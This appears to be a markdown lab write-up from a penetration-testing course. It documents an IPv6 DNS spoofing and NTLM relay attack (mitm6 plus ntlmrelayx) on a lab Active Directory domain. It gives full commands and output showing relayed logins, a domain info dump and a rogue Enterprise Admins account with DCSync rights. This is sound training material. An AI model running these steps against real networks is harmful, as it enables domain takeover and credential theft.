





# IPv6 DNS Takeover via mitm6

The tool `mitm6` was not installed on Kali 2025.1 by default, but could be
installed simply with `sudo apt install mitm6`.

We have to start `ntlmrelayx.py` first as follows. `-6` is used for IPv6, the
`-t`option specifies the target to relay the credentials to (IP, hostname or
URL), in this case the LDAPS protocol on our domain controller (`10.0.2.15`).
`-wh <fake WPAD name>` enables a proxy Authentication attack, using the provided
fake WPAD name. `-l <name>` specifies a loot directory name, where collected
loot is stored.

```
┌──(kali㉿kali)-[~]
└─$ ntlmrelayx.py -6 -t ldaps://10.0.2.15 -wh fakewpad.marvel.local -l lootme
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
```

When `ntlmrelayx.py` has started without error messages and waits for traffic,
we start `mitm6` in another terminal tab as follows to run the attack. The
option `-d <domain>` specifies the Windows domain name, in our case
`MARVEL.local`. We can see that IPv6 addresses are assigned to the MAC addresses
of the Windows machines (Windows cmd: `systeminfo` and `getmac`). With that we
have now becoming the man in the middle for IPv6 for these servers.

```
┌──(kali㉿kali)-[~]
└─$ sudo mitm6 -d marvel.local
Starting mitm6 using the following configuration:
Primary adapter: eth0 [08:00:27:b4:a1:05]
IPv4 address: 10.0.2.5
IPv6 address: fe80::894a:2922:b342:85c0
DNS local search domain: marvel.local
DNS allowlist: marvel.local
IPv6 address fe80::8635:1 is now assigned to mac=08:00:27:99:a3:3e host=HYDRA-DC.MARVEL.local. ipv4=
IPv6 address fe80::8635:2 is now assigned to mac=08:00:27:52:4f:78 host=SPIDERMAN.MARVEL.local. ipv4=
IPv6 address fe80::8635:3 is now assigned to mac=08:00:27:16:45:f8 host=THEPUNISHER.MARVEL.local. ipv4=
Sent spoofed reply for wpad.MARVEL.local. to fe80::7985:c3bd:f09e:1a20
Sent spoofed reply for wpad.MARVEL.local. to fe80::2dd7:9919:b2a:d026
Sent spoofed reply for fakewpad.marvel.local. to fe80::7985:c3bd:f09e:1a20
Sent spoofed reply for wpad.marvel.local. to fe80::2dd7:9919:b2a:d026

(...)
```

When an event occurs on the network now, e.g. a reboot of a machine or somebody
logging in to a device, the credentials will be relayed to the domain controller
via `ntlmrelayx`. The information that we can get from this relay depends on
who the user is. To simulate such an event, we reboot the machine `THEPUNISHER`.

**Warning!** Running `mitm6` for more than 5-10 minutes will cause outages in
the network, therefore it should only be run in short sprints. We are the DNS
server while running `mitm6`, and it might break something on the network.

After some time, we can see success messages in the `ntlmrelayx` output, such
as `HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/THEPUNISHER$
SUCCEED`. This means we have successfully logged in without providing either
password or password hash!

```
[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.4
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.6
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.4
[*] HTTPD(80): Connection from ::ffff:10.0.2.4 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.6
[*] HTTPD(80): Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Client requested path: http://www.msftconnecttest.com/connecttest.txt
[-] Authenticating against ldaps://10.0.2.15 as SPIDERMAN/PETERPARKER FAILED
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/FCASTLE SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/THEPUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/THEPUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
[*] All targets processed!
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, but there are no more targets left!

(...)
```


We will now find a lot of information in the output folder `lootme`, all
created by a tool called `LDAP domain dump`. Most of the information is offered
in three formats: `grep`-able (tab-separated), HTML, and JSON.



There is a list of computers in the domain along with the installed operating
system, which allows us to pick older, perhaps more vulnerable OS versions.



In the file `domain_users_by_group.html` we get an overview of who is a domain
admin, an enterprise admin, etc. The main targets that we should focus our
attack on are `SQL Service`, `Tony Stark` and the `Administrator`. If we had
not set them up before, we would not have known this information so far!

We can also see the descriptions, including the one in which we had stored the
user password in clear text on purpose.

If we find accounts that have never been used, we should get a bit wary since
these could be honey pots. We should keep an eye open for details such as the
last login date or the last password change.



Logging in as a domain administrator, e.g. `MARVEL\Administrator`, will lead to
the creation of a new user account once `ntlmrelayx` has relayed administrator.
In contrast to the video, this works only if the `--adcs` flag is set. (As per
a hint on Discord, after I had tried this without success in the same way that
was shown in the video.)

Also in contrast to the video, there is no output of an access control list.
However, a newly created user will be added to a group with elevated privileges
(Enterprise Admins!), and the login credentials for this user a printed. The new
user allows the execution of a DCSync attack with `secretsdump.py`, which dumps
the entire secrets of the domain. The password hashes that we gain in this data
dump let us own the entire domain. (This topic will not be covered further here.)
So, when IPv6 MITM is possible and a domain admin logs in after we have started
our tools, it will be **instant game over**. This is an extremely vulnerable
feature that is enabled in Active Directory by default.

```
(...)

[*] HTTPD(80): Connection from ::ffff:10.0.2.4 controlled, attacking target ldaps://10.0.2.15
[-] Authenticating against ldaps://10.0.2.15 as SPIDERMAN/PETERPARKER FAILED
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/ADMINISTRATOR SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Attempting to create user in: CN=Users,DC=MARVEL,DC=local
[*] Adding new user with username: HnlbLdcDQz and password: BD+L:itq3Uq#;ah result: OK
[*] Querying domain security descriptor
[*] Success! User HnlbLdcDQz now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20250803-074630.restore
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting.
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/ADMINISTRATOR SUCCEED

(...)
```

We can now find the new user in the domain controller's `Server manager` under
`Tools\Active Directory Users and Computers\Users`.






#### Further reading

* [Short explanation of IPv6 DNS spoofing](https://notes.benheater.com/books/active-directory/page/ipv6-dns-spoofing)
* [Same from threatlocker.com](https://www.threatlocker.com/blog/hardening-active-directory)
* [Focus on WPAD by SentinelOne](https://www.sentinelone.com/blog/in-the-wild-wpad-attack-how-threat-actors-abused-flawed-protocol-for-years/)
* [Writeup "IPv6 Exploitation in AD environment"](https://medium.com/@browninfosecguy/ipv6-exploitation-in-ad-environment-b22a7c3ec8af)
* [Fortinet: "Difference between LDAP vs LDAPS"](https://community.fortinet.com/t5/FortiGate/Technical-Tip-Difference-between-LDAP-vs-LDAPS/ta-p/274778)


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
